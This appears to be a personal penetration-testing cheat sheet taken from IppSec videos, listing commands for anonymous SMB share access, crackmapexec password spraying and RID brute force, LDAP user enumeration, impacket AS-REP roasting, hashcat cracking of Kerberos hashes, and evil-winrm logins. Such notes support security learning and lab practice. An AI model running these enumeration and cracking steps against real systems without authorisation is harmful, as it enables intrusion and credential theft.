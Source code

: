 

```
Some usefull commands/tools I found while watching IPSec vids.
```
<https://ippsec.rocks/>


smbclient

### list shares (sometimes no pw is requires)

```
smbclient -L 192.168.50.20

smbclient -N -L  192.168.50.20

smbclient -N  //192.168.50.20/sharename

smbclient -U '' -L  //192.168.50.20

smbclient -U 'guest' -L  //192.168.50.20
              anonymous
```

### Log onto the Users share
```
smbclient //192.168.50.20/Users
```


### Software updates
```
smbclient //192.168.50.20/Software_Updates

```

### Mounting SMB

```
First install cifs-utils, so that you can mount the SMB remotely

sudo apt install cifs-utils

create the mountpoint first

sudo mkdir /mnt/usr

sudo mount -t cifs //192.168.50.20/Users /mnt/user

sudo mount -t cifs //192.168.50.20/Data /mnt/data

```

### Now you should be able to access the data you pulled from SMB in your /mnt directory

```
cd /mnt

smbmap

smbmap -H 192.168.50.20

smbmap -H 192.168.50.20 -u 'fakeusername'

```

## cracmapexec for SMB

### list the shares
```
crackmapexec smb 192.168.99.162 --shares
```
### Get info on their pw policy:
```
crackmapexec smb --pass-pol 192.168.99.162
```
### Null authentication
```
crackmapexec smb  192.168.99.162 -u '' -p ''
```

### enumerate a DC's users
```
crackmapexec smb 192.168.99.162 --users
```

### try with non-existant user
```
crackmapexec smb 192.168.99.162 --shares -u fakeuname -p fakepwd
```

### discover who's logged on
```
crackmapexec smb 192.168.99.162 --loggedon-users

```
### bruteforce some smb if you can
```
crackmapexec smb 192.168.99.162 --rid-brute 4000
```
### crack password of an enumerated user/or Built in
```
crackmapexec smb 192.168.99.162 -u Guest -p rockyou.txt

```
### Brute force
```
crackmapexec smb 192.168.99.162 -u 'Administrator' -p 'PASS' --rid-brute
```
### More stuff
```
crackmapexec smb 192.168.1.10 -u svc-user -p userspw
```

## LDAP

__ldapsearch is a good alternative to enum4linux.

```
ldapsearch -h <targetIP>  -x

ldapseach -h 192.168.1.10 -x -s base namingcontexts

ldapsearch -h 192.168.1.10 -x -b "DC=name,DC=local" > ldap-anonymous.out

grep -i "memberof" ldap-anonymous.out

less ldap-anonymous.out

ldapsearch -h 192.168.1.10 -x -b "DC=name,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName

ldapsearch -h 192.168.1.10 -x -b "DC=name,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap

```

### Some IMPACKET Python script useage.
```

sudo impacket-smbserver -smb2support -user yourname -password yourpassword sharename $(pwd)

Some how-to use of various impacket scripts & hashcat
IMPACKET & hashcat

./GetNPUsers.py -dc-ip 192.168.1.10 -request 'target.domain/'

./GetNPUsers.py -dc-ip 192.168.1.10 -request 'target.domain/' -format hashcat

```

### Crack the pw with Hashcat
**Kerberos**

```
./hashcat --example-hashes | grep -i krb

asrep23

create a text doc with the hash

Vim hashes/svc-dude

once you get the dudes pw do

crackmapexec smb 192.168.1.10 -u svc-dude -p dudespw

should log in

crackmapexec smb 192.168.1.10 -u svc-dude -p dudespw --shares

get group policy pw if you can

search the hashes file to get the mode number

./hashcat --example-hashes | less

mode 18200 for asrep

hascat cmd

hashcat -m 18200 hashse/svc-dude  /opt/wordlists/rockyou.txt -r rules/InsidePro-PasswordsPro.rule


you can also create wordlists with hashcat.. that will be posted later
```

### Commands n stuff
```
instead of grep, try ripgrep
instead of cat, try bat
when using ripgrep, it's used with the same syntax as grep, except you only have to type ripgrep
```

### example

```
rg -i "chars" file.txt

also can search a directory:

ls -l | rg -i "document"
```

**winrm**
```
./evil-winrm.rb -u svc-user -p hispassword -i 192.168.1.10

```
